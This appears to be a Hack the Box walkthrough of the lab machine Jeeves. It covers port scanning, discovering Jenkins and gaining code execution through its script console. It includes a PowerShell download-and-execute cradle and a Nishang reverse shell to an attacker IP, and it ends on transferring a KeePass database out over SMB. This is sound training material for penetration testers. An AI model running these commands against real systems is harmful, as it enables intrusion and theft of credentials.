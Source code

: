 # Hack the Box - Jeeves

```CSS
Machine IP: 10.10.10.63
```

## NMAP

```CSS
▶ nmap -Pn -sS -p- 10.10.10.63 -T4 --min-rate 1000 -oN surface.nmap

Nmap scan report for 10.10.10.63
Host is up (0.18s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
445/tcp   open  microsoft-ds
50000/tcp open  ibm-db2

Nmap done: 1 IP address (1 host up) scanned in 126.42 seconds
```

```CSS
▶ nmap -sC -sV -p 80,135,445,50000 10.10.10.63 -oN deep.nmap 

Nmap scan report for 10.10.10.63
Host is up (0.18s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-title: Ask Jeeves
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-05-05T11:01:04
|_  start_date: 2023-05-05T10:53:38
|_clock-skew: mean: 4h59m36s, deviation: 0s, median: 4h59m35s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.18 seconds
```

## HTTP 80
![image](https://user-images.githubusercontent.com/83878909/236389498-19f90e31-9c0d-4d9a-a46d-412576e533ed.png)

## HTTP 50000
![image](https://user-images.githubusercontent.com/83878909/236389674-c5e1bd6b-986d-46fd-b722-774f68fc85b2.png)

## Content Discovery
```CSS
▶ gobuster dir -u http://10.10.10.63:50000 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 25 -o http50000.gobuster
```
![image](https://user-images.githubusercontent.com/83878909/236398246-f2078de0-b176-4b58-ad55-50c921f36af9.png)

### Jenkins
![image](https://user-images.githubusercontent.com/83878909/236398469-e3cc9985-d477-4eb1-ad5d-c2158413b1a3.png)

## Initial Foothold
### Jenkins Code Execution
![image](https://user-images.githubusercontent.com/83878909/236399568-d5c3513a-e53a-4eb0-ad52-78b57a826a65.png)
![image](https://user-images.githubusercontent.com/83878909/236399923-36a48d06-d4bf-4f21-bbbd-774488412b38.png)
![image](https://user-images.githubusercontent.com/83878909/236400279-596d3aac-959f-4467-8461-edf489fdb014.png)
![image](https://user-images.githubusercontent.com/83878909/236403739-d0e075fe-9e51-4c44-a413-c895808a6eb7.png)

### Reverse Shell (Nishang)
```CSS
Invoke-PowerShellTcp.ps1
```
  - Add the below line to the end of the nishang script to call the function `Invoke-PowerShellTcp`.
```CSS
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.24 -Port 1337
```
![image](https://user-images.githubusercontent.com/83878909/236402506-7d9ab4a3-c03b-4f9a-95df-9919a096fab8.png)

### Upload and Execute Reverse Shell
![image](https://user-images.githubusercontent.com/83878909/236404815-a3a749e4-9efe-4822-84f7-c52ff12fadbb.png)
```CSS
cmd = """ powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.24:8000/Invoke-PowerShellTcp.ps1')" """
println cmd.execute().text
```
![image](https://user-images.githubusercontent.com/83878909/236404998-1451dc7e-23c3-492c-b2c0-9c4088e3fa56.png)
![image](https://user-images.githubusercontent.com/83878909/236405272-c600aa84-8189-4c49-823c-b3a885c9c1b7.png)

## Privilege Escalation
```CSS
PS C:\Users\kohsuke\Desktop> systeminfo

Host Name:                 JEEVES
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.10586 N/A Build 10586
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00331-20304-47406-AA297
Original Install Date:     10/25/2017, 4:45:33 PM
System Boot Time:          5/5/2023, 6:53:24 AM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2300 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.16707776.B64.2008070230, 8/7/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume2
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-05:00) Eastern Time (US & Canada)
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,155 MB
Virtual Memory: Max Size:  2,687 MB
Virtual Memory: Available: 1,747 MB
Virtual Memory: In Use:    940 MB
Page File Location(s):     C:\pagefile.sys 
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 10 Hotfix(s) Installed.
                           [01]: KB3150513 
                           [02]: KB3161102 
                           [03]: KB3172729 
                           [04]: KB3173428 
                           [05]: KB4021702 
                           [06]: KB4022633 
                           [07]: KB4033631 
                           [08]: KB4035632 
                           [09]: KB4051613 
                           [10]: KB4041689 
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.63
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

### Check Privileges
  - Enabled privileges for the current user.
```CSS
PS C:\Users\kohsuke\Desktop> whoami /priv
```
![image](https://user-images.githubusercontent.com/83878909/236414816-1cb17b36-5c1e-4523-9408-e0f0cd9c4ad7.png)
  - SetImpersonatePrivilege is enabled so we’re very likely to get SYSTEM using Juicy Potato. However it is not the intended way to get SYSTEM on this machine.

### Content Discovery
![image](https://user-images.githubusercontent.com/83878909/236416012-ac147c3d-f597-4efe-a993-72b5b024ef42.png)

  - A bit of browsing quickly reveals a CEH.kdbx file in the Documents directory.

#### File Transfer
  - Transfer the `CEH.kdbx` file to attacker machine. Use `netcat` or `impacket-smbserver` for the file transfer.
```CSS
▶ impacket-smbserver PwnStuff `pwd`
```
![image](https://user-images.githubusercontent.com/83878909/236417913-f7d190bb-1536-423b-9281-108512a2bc16.png)

